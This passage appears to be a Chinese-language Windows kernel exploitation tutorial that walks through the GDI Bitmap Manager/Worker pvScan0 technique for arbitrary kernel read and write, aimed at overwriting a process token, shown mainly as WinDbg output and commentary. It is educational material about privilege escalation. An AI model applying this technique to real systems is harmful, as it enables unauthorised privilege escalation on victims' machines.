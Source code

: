 ```
kd&gt; rdmsr c0000082
msr[c0000082] = fffff801`7cb740c0
nt!KiSystemCall64:
0033:fffff801`7cb740c0 0f01f8          swapgs
0033:fffff801`7cb740c3 654889242510000000 mov   qword ptr gs:[10h],rsp
```

到此，我们进入SetBitmap的内核态，之所以pvScan0这么重要，是因为SetBitmap会对pvScan0指向的内容写数据，GetBitmap会获取pvScan0指向的内容。这样，我们可以设置一个Manager Bitmap（以下称为M）和一个Work Bitmap（以下称为W），将M的pvScan0修改成W的pvScan0地址，这样每次就能用在M上调用SetBitmap将W的pvScan0内容修改成我们想要读或者写的地址，再调用Get/Set Bitmap来向指定地址读取/写入数据了。这么说有点乱，来看一下整个过程。

通过AcceleratorTable制造内存空洞占位获取Bitmap的pkernelAddress之后，可以获取到pvscan0的值，其中M存放W的pvscan0所存放的地址，而W的pvscan0用于最后写入相关的内容，这样我们调用setbitmapbits函数的时候，会将M的pvscan0里存放地址指向的值修改为要写入的地址。 

```
kd&gt; dq ffffbad383ae9050 L1 // M的pvScan0，现在指向W，这样每次修改，相当                                //于修改W的pvScan0
ffffbad3`83ac8050  ffffbad3`83aeb050
kd&gt; dq ffffbad383aeb050 L1//W的pvScan0，所在地址值就是M的pvScan0值
ffffbad3`83ac8050  ffffe28d`12762af0//要修改的就是这个值，向这个值的内容
//读取/写入数据
```

这里就会将ffffbad383aeb050中的值改写，因此在这里下内存写入断点。

```
kd&gt; ba w1 ffffbad383aeb050//向W的pvScan0下内存写入断点
kd&gt; p
Breakpoint 0 hit
win32kfull!memmove+0x1cf://中断在win32kfull!memmove函数中
ffffbab6`0b940f0f 75ef            jne     win32kfull!memmove+0x1c0 (ffffbab6`0b940f00)
kd&gt; bl
 0 e ffffbad383aeb050 w 1 0001 (0001)
kd&gt; kb
RetAddr:ArgstoChild  : Call Site
ffffbab6`0b88405c : 00000000`00fff8a0 00000000`00000000 00000000`00000a9a ffffbab6`0bbbf1da : win32kfull!memmove+0x1cc
ffffbab6`0b883e1a : ffffbad3`83ae9000 00000000`00000000 ffffffff`00000008 fffff801`00000704 : win32kfull!bDoGetSetBitmapBits+0x168
00000000`00000000 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : win32kfull!GreSetBitmapBits+0x17a
kd&gt; dq ffffbad383adc050 L1 //这里会写入新的pvScan0，这个值是当前进程的                                       //token地址
ffffbad3`83aeb050  ffffe28d`12762b58
kd&gt; !process 0 0 //查看当前进程
PROCESS ffffe28d12762800
    SessionId: 1  Cid: 10cc    Peb: 011cb000  ParentCid: 1124
    DirBase: 48d5b000  ObjectTable: ffffa709d16d1640  HandleCount: &lt;Data Not Accessible&gt;
Image: Stop_by_win10.exe
kd&gt; dt nt!_EPROCESS Token ffffe28d12762800
   +0x358 Token : _EX_FAST_REF
kd&gt; dq ffffe28d12762800+358 L1//看看token值，就是pvScan0的值
ffffe28d`12762b58  ffffa709`d1903996
```
